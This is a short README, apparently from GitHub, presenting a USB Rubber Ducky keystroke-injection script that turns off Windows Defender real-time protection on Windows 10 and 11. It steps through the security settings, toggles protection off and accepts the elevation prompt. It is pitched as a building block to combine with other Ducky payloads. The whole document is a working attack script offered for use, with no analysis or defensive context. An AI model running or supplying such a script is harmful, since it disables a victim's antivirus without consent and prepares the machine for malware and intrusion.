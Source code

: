 # A Code That Will Disable Windows defender 

## This Code Is Tested On Windows 10 19043.1288 OS build & Windows 11 22000.282 OS build.

### Date : 04-10-2021

Note : Older PC's may require more delay.

This Code Can be Combined With Other Ducky Scripts.

```
REM Author : @krishnachaittanyah
REM This Script Will Disable Real Time Protection
REM *********************
REM We're going to disable Real Time Protection
REM *********************
DELAY 1000
GUI 
DELAY 500
STRING virus & threat protection
ENTER
DELAY 3000
TAB 
TAB
TAB
TAB
DELAY 200
ENTER
DELAY 200
SPACE 
DELAY 3000
ALT y  
```